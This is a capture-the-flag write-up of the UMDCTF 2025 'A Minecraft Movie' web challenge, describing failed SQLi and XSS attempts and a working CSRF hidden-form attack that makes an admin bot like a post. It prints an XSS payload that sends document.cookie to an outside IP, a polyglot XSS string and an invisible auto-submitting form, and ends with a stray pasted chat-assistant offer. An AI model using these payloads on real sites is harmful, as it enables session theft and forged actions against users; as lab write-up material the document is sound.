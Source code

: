 # A Minecraft Movie - UMDCTF 2025 Writeup

## Challenge Overview
We are given access to a web application where users can register accounts, create posts, and view posts by others. Our goal is to exploit the application and retrieve the flag.
![image](https://github.com/user-attachments/assets/8caefb87-360f-4be6-b6d2-12bbf7fdca71)

---

## Reconnaissance
After registering an account and logging in, we explore the basic functionality:
- Users can **create posts** by submitting a title and content.
- Posts can be **liked or disliked** by other users.
- An **admin bot** visits submitted posts when we provide a `postId`.
    


---

### Login Page Testing
Initial attempts were made to perform **SQL injection (SQLi)** on the login page (e.g., `admin' --`) to bypass authentication, but these attempts failed.

---

### Post Creation Testing
We explored several types of input-based vulnerabilities:
- **SQL Injection** in post fields (title, content) — unsuccessful.
- **Server-Side Template Injection (SSTI)** payloads — unsuccessful.
- **Cross-Site Scripting (XSS)** payloads — initially unsuccessful.

During post creation, we noticed two separate HTTP requests:
1. An initial request to create the post.
2. A second request sending the content (title and body).

Attempts to tamper with cookies during these requests resulted in `401 Unauthorized` errors.

We also observed that the session cookie remained **static**, meaning anyone with the same cookie value could impersonate a user session. This was noted for potential later use, as well as the format of the Title and Content of our post being submitted:
![image](https://github.com/user-attachments/assets/b138b8f8-a7db-4441-8bf9-52990c55ac0d)

---

### Post ID Observations

After creating posts, we observed how posts are fetched:

- A second HTTP request retrieves the post using a **UUID-like `postId`**.
    
- These UUIDs appeared **randomly generated** with no clear pattern.
    

![image](https://github.com/user-attachments/assets/c0ccabd0-126e-46fe-9a76-8e4ed6704a38)
![image](https://github.com/user-attachments/assets/f3e3ad84-2dfa-4294-ae3c-0d14e71af344)


Example observed post IDs:

```
6a75eeed-2128-47f2-a552-a9dca81ebd81
2d5f5bbd-3ebf-4ba5-9fc0-2f7d5f3a6026
...
```

Further brute-forcing to find any similarity or predictability in post IDs was not going to work.

---

### Admin Interaction

The application includes another page where users can **submit their `postId`** for the admin bot to view and interact with (like or dislike).

![image](https://github.com/user-attachments/assets/0fe40092-c44e-4b01-85b9-bbbe9711a17e)

Inspecting the page source revealed that the post IDs are used in a hidden form field, showing the format of all the post IDs.

![image](https://github.com/user-attachments/assets/d3d2fe34-c0aa-422c-8cf8-c037873338ca)

At this point, we theorized that the intended exploit path involved getting the admin to **visit a malicious post**.

---

## Exploitation

### Attempted XSS Payloads

Since SQLi and SSTI attempts failed, we focused on **XSS** to try to capture the admin’s session cookie.

First, we analyzed how the website displayed our post onto the page to look for any attributes, such as a script attribute that we could try to manipulate:

![image](https://github.com/user-attachments/assets/f1da32ca-8a7f-4ba9-a36d-f05c436e06bb)


We attempted to inject payloads into the post content and title:

```html
</textarea><img src=x onerror="fetch('http://192.168.40.237:8888?cookie=' + btoa(document.cookie))">
```

However, despite submitting the `postId` to the admin and running a listener, the request was indeed received, but no cookies were being sent.

---

### Analyzing the Filtering

We further investigated how the site filtered user input:

- **Direct `<script>` tags were removed** entirely.
    
- Anything inside `< >` was heavily sanitized.
    
- Some tag closing patterns could be injected to break HTML structure, e.g., `</h2><script>alert(1)</script>` — but most attempts failed.
    

I tried to use a Polygot payload to see what else may be filtered:

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/ -!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

![image](https://github.com/user-attachments/assets/8c48a648-8f39-4a33-9b6c-c12630787c33)


Despite these attempts, **all JavaScript execution was filtered**. Anything between `< >` was neutralized.

I tried these other approaches, but all failed to alert the page:

```html
" onmouseover="alert(1)
' onclick='alert(1)
javascript:alert(1)
" autofocus onfocus=alert(1) "
```

---

### Observations from other posts

While browsing public posts, we noticed some posts successfully embedded YouTube links. We attempted to recreate this but all `<iframe>` and other embed tags were sanitized, and content was displayed as plain text.

---

### Figuring out the solution - CSRF attack

Upon looking into it further, we can see that the page to submit our post to an admin says "Think you can get an admin to like your post?", hinting that we needed to get an admin to like our post to get the flag, not steal their login cookie.

We pivoted to a **Cross-Site Request Forgery (CSRF)**-based attack to do this.

The idea:
- When the admin visits our post, we could automatically **submit a hidden form**.
- The form would **send a POST request** to the site's like/dislike endpoint with the necessary parameters.
    

Payload used:

```html
<form action="https://a-minecraft-movie-api.challs.umdctf.io/legacy-social" method="POST">
  <input name="sessionNumber" value="23">
  <input name="postId" value="e7181b50-1d30-4c07-ba37-4350383322e3">
  <input name="likes" value="1">
  <input type="submit" autofocus style="position:fixed;top:0;left:0;width:100%;height:100%;opacity:0">
</form>
```

Explanation:
- The form is styled to be **invisible** and **auto-focused**.
- Any interaction (even a click or keypress) would **trigger form submission**.
- This would cause the admin to like our post without their knowledge.
    

We submitted this crafted post, and after the admin bot visited it, the flag was retrieved.

---

## Final Flag

```
UMDCTF{I_y3@RNeD_f0R_7HE_Min3S}
```

---

Would you also like me to help you create an even more **CTF competition-ready markdown version** of this? (so you could copy-paste it directly into a GitHub repo or share cleanly?) 🚀  
Would take me 1 more step!
